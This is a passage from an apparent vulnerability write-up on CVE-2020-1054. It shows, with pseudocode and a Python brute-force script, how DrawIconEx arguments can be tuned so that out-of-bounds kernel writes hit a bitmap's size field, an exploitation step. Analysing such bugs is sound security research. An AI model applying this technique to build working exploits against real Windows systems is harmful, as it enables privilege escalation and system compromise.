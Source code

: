 This provides the ability to set an offset from the start of the lower 32 bits where 

```
offset = (arg1 // 0x20 ) * 0x4 + 0x240
```

Testing arguments to `DrawIconEx` with breakpoints on both `mov dword ptr [r14],esi` instructions also uncovered useful information.
 arg2 of `DrawIconEx` controls the number of iterations through a loop where writes are performed on the bitmap data. For example, if `0x5` is passed as arg2, then `0x5` sets of writes are executed:

![image 8](/assets/images/cve-2020-1054-analysis/9.PNG)

The difference between sets of writes is equivalent to an earlier variable, `lDelta`. This can be written in psuedo code as:

```
intial_value = 0xfffff901`c7000240 + (arg1 // 0x20) * 0x4;
loop_count = 0;
while(arg2) 
{
    write_location_1 = intial_value + lDelta * loop_count;
    write location_2 = write_location_1 + 4;
    --arg2;
    ++loop_count;
}
```

Effectively, three values need to be solved for such that at some point through the loop `write_location_1` and `write_location_2` land on surfobj1's `csizlBitmap`.
The three values are arg1, arg2 and `lDelta` (width of bitmap // 8). 

This can be bruteforced with ugly Python:

```python
print("bruting function arguments...") 

# start with size at 0x50000 
for size in range(0x50000, 0xffffff):
    lDelta = size // 0x8 
    # lDelta is always byte alligned so ignore if not
    if lDelta & 0x0f == 0:
        for arg1 in range(0x0, 0xfff, 0x20):
            offset = (arg1 // 0x20) * 0x4 + 0x240
            for arg2 in range(0x0,0x10):
                write_target = offset + arg2 * lDelta
                if write_target == 0x70038:
                    print("found: size {:x}, offset (arg1) {:x}, lDelta {:x}, \
                    loop_count (arg2) {:x}".format(size, arg1, lDelta, arg2))
```
